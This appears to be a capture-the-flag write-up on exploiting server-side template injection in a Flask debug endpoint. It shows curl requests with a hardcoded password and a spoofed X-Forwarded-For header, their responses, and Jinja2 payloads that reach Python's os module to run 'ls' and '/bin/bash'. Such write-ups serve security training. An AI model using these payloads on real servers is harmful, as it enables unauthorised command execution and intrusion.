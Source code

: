 The web app is running Flask and passes user input directly into render_template_string without proper sanitization. This function takes a string and evaluates it as a Jinja2 template. This means anything inside {{ … }} is executed by the server. Testing with {{ 7*7 }} returned 49, confirming that **Server-Side Template Injection (SSTI)** works.

First, retrieve a vaild session cookie.
```
$ curl 'http://<target ip>:7777/debug?debug=\{\{7*7\}\}&password=AyhamDeebugg' -I
HTTP/1.1 200 OK
Server: Werkzeug/2.3.4 Python/3.11.0
Date: Thu, 11 Sep 2025 12:56:24 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2024
Vary: Cookie
Set-Cookie: session=.eJyrVkpJTSpNV7JSqq421zKvrVXSUSpILC4uzy9KAQomqSvExFQYGKARqkDSMDkmpgjEMwZxLEAsMxArVV2pFgCp1xtW.aMLG-A.u9-65vYwbdk5vAvpJErjvQuz7MQ; HttpOnly; Path=/
Connection: close
```
Next, cpoy the session cookie and paste into the payload.
```
$ curl 'http://<target ip>:7777/debugresult' -H 'X-Forwarded-For: 127.0.0.1' -b 'session=.eJyrVkpJTSpNV7JSqq421zKvrVXSUSpILC4uzy9KAQomqSvExFQYGKARqkDSMDkmpgjEMwZxLEAsMxArVV2pFgCp1xtW.aMLG-A.u9-65vYwbdk5vAvpJErjvQuz7MQ'
<body>

    <div class="main">
        <h1 class="title">Debugging Results</h1>
<pre>
<code>

┌──(ayham㉿AM-Kali)-[~]
└─$ debugging
<span class="result">49</span>

</code>
</pre>

</body>
</html>
```
It gives 49(7*7) so the web app seems like it is susceptible to SSTI. 

## Exploit

The point is the template prevents directly importing os (or other modules). To execute system commands, it is necessary to find an indirect way to reach the os module.
    
    self.__init__.__globals__.__builtins__.__import__("os").popen("ls").read()

it accesses the Python os module through the template environment and executes the ls command on the server and reads its output. 'hello' → object → subclasses → sys → os

    >> 'hello'.__class__.__base__.__subclasses__()[144].__init__.__globals__['sys'].modules['os'].popen('/bin/bash').read() 
